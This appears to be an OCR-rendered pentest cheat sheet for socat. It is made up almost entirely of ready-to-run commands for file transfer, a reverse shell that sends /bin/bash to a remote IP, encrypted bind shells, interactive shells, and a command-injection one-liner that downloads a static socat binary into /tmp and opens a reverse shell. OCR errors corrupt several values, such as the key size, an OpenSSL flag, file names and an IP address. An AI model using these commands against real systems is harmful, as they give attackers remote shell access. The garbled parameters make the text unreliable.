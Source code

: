 # Socat

## connect

```
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

## file transfer

```
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

## reverse shell

```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

## Encrypted Bind Shells

​​create a cert with openssl:

```
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt
```

```
req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```

​merge two files to create a usable pem file for socat:

```
cat bind_shett.key bind_shett.crt > bind_shett.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin
/bash

socat - OPENSSL:1e.11. e .4:443,verify=8
```

## intractive shell Using socat

```
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
